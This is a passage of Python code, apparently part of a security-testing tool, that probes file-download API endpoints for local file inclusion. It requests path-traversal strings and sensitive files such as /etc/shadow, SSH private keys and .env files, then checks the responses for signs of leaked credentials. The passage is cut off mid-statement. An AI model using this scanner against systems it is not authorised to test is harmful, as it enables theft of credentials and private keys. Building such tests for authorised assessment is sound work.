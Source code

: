 ```python
        # LFI test endpoints
        lfi_endpoints = [
            {'url': '/api/files/{filename}', 'method': 'GET'},
            {'url': '/api/download/{path}', 'method': 'GET'},
            {'url': '/api/logs/{logfile}', 'method': 'GET'},
            {'url': '/api/backup/{filename}', 'method': 'GET'}
        ]
        
        # Common sensitive files
        sensitive_files = [
            '/etc/passwd',
            '/etc/shadow',
            '/etc/hosts',
            '/proc/version',
            '/proc/cpuinfo',
            '/var/log/auth.log',
            '/var/log/apache2/access.log',
            '/home/user/.ssh/id_rsa',
            '/root/.ssh/id_rsa',
            '../../../../etc/passwd',
            '..\\..\\..\\..\\windows\\system32\\drivers\\etc\\hosts',
            '/app/.env',
            '/app/config.json',
            '/app/package.json'
        ]
        
        results = []
        
        for endpoint in lfi_endpoints:
            print(f"  Testing LFI on {endpoint['url']}")
            
            for file_path in sensitive_files:
                try:
                    # URL encode the path
                    encoded_path = quote(file_path, safe='')
                    test_url = f"{self.base_url}{endpoint['url'].format(filename=encoded_path, path=encoded_path, logfile=encoded_path)}"
                    
                    response = self.session.request(
                        endpoint['method'],
                        test_url,
                        timeout=5
                    )
                    
                    # Check for successful file read
                    if response.status_code == 200 and len(response.text) > 10:
                        # Look for file content indicators
                        content_indicators = [
                            'root:',  # /etc/passwd
                            'localhost',  # /etc/hosts
                            'Linux version',  # /proc/version
                            'processor',  # /proc/cpuinfo
                            '-----BEGIN',  # SSH keys
                            'DATABASE_URL',  # .env files
                            '"name":',  # package.json
                        ]
                        
                        if any(indicator in response.text for indicator in content_indicators):
                            results.append({
                                'endpoint': endpoint['url'],
                                'file_path': file_path,
                                'encoded_path': encoded_path,
                                'response_size': len(response.text),
```